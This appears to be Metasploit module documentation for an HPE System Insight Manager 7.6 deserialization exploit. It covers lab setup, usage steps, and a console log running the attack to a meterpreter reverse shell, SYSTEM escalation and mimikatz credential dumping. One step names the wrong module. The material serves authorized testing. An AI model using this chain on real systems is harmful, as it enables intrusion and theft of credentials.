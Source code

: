 ## Vulnerable Application
A remotely exploitable vulnerability exists within HPE System Insight Manager (SIM) version 7.6.x that can be
leveraged by a remote unauthenticated attacker to execute code within the context of HPE System Insight
Manager's `hpsimsvc.exe` process, which runs with administrative privileges. The vulnerability occurs due
to a failure to validate data during the deserialization process when a user submits a POST request to
the `/simsearch/messagebroker/amfsecure` page.

This module exploits this vulnerability by leveraging an outdated copy of Commons Collection, namely
3.2.2, that ships with HPE SIM, to gain RCE as the administrative user running HPE SIM.

### Installing HP SIM 7.6
1. Set up a Windows Server 2016 VM.
1. Sign up for a HP login if you do not have one already. You can use a throw away email address here.
1. Download HPE SIM from https://myenterpriselicense.hpe.com/cwp-ui/download/swd/product/details/HPSIM-Win-7.x.
1. Search for `Turn Windows Features On or Off`, select `Role-based or feature-based installation`, and click `Next`, until you see `Select features`.
1. Check `SNMP Service` and `.NET Framework 3.5 Features`, and click `Next`, then `Install`. You may need to be connected to the internet to install .NET 3.5.
1. Download SQL Server 2016 SP2 Express from https://www.microsoft.com/en-us/download/details.aspx?id=56840 and run the installer.
1. Open `Computer Management` and then go to `Computer Management (Local)->Services and Applications->SQL Server Configuration Manager->SQL Server Network Configuration->Protocols for SQLEXPRESS` and double click on `TCP/IP`.
1. Set `Enabled` to `Yes` under the `Protocol` tab.
1. Click on the `IP Addresses` tab and set all `TCP Dynamic Ports` fields from `0` to an empty field, and set all `TCP Port` fields to `1433`. Then click the `Apply` button.
1. Restart the SQL service by running `sc stop MSSQL$SQLEXPRESS` and then after a few seconds, run `sc start MSSQL$SQLEXPRESS`
1. Run the HPE SIM installer and when it gets to the `Database Configuration` page, it should default to `Use SQL/SQL Express`.
1. Ensure at this point that the username is `Administrator` (or whatever the name of the administrative user you are installing as is), and the `Domain` and `Host` values are correct, and that the port is `1433`.
1. For the `Password` field, enter the password of the `Administrator` (or whatever the name of the administrative user you are installing as is), and click the `Next` button.
1. Click `Typical` under the installation option and then select `Next`.
1. On the `Service Account Credentials` screen, enter the password for the `Administrative` user and click `Next`. Then click `Install`.
1. Wait for installation to complete, this could take up to 30 min.
1. Verify that you can view https://127.0.0.1:50000/simsearch/messagebroker/amfsecure and that the page returns a HTTP 200 OK response code.

## Verification Steps

1. Install the application ensure port 50000 is open on the target and that the `/simsearch/messagebroker/amfsecure` page is accessible.
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS` option.
1. Set the `TARGET` option if desired.
1. Set an appropriate payload for the `PAYLOAD` option.
1. Set any additional options as required by the previously selected payload
1. Run the exploit

## Options

## Scenarios

### SIM_7.6_Z7550-96287 on Server 2016

```
msf > use exploit/windows/http/hpe_sim_76_amf_deserialization
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/hpe_sim_76_amf_deserialization) > set RHOSTS 172.27.145.59
RHOSTS => 172.27.145.59
msf exploit(windows/http/hpe_sim_76_amf_deserialization) > set LHOST 172.27.150.115
LHOST => 172.27.150.115
msf exploit(windows/http/hpe_sim_76_amf_deserialization) > show options

Module options (exploit/windows/http/hpe_sim_76_amf_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.27.145.59    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      50000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the HPE SIM server
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.27.150.115   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell


msf exploit(windows/http/hpe_sim_76_amf_deserialization) > exploit

[*] Started reverse TCP handler on 172.27.150.115:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target returned java.lang.NullPointerException in its 200 OK response!
[*] Sending stage (200262 bytes) to 172.27.145.59
[*] Meterpreter session 1 opened (172.27.150.115:4444 -> 172.27.145.59:53349) at 2021-03-08 16:04:52 -0600

meterpreter > getuid
Server username: WIN-QKA9JKS5MVU\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-QKA9JKS5MVU  *censored*                        *censored*

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-QKA9JKS5MVU  (null)
WIN-QKA9JKS5MVU$  WORKGROUP        (null)

kerberos credentials
====================

Username                 Domain           Password
--------                 ------           --------
(null)                   (null)           (null)
Administrator            WIN-QKA9JKS5MVU  (null)
MSSQL$SQLEXPRESS         NT Service       (null)
SQLTELEMETRY$SQLEXPRESS  NT Service       (null)
win-qka9jks5mvu$         WORKGROUP        (null)


meterpreter >
```
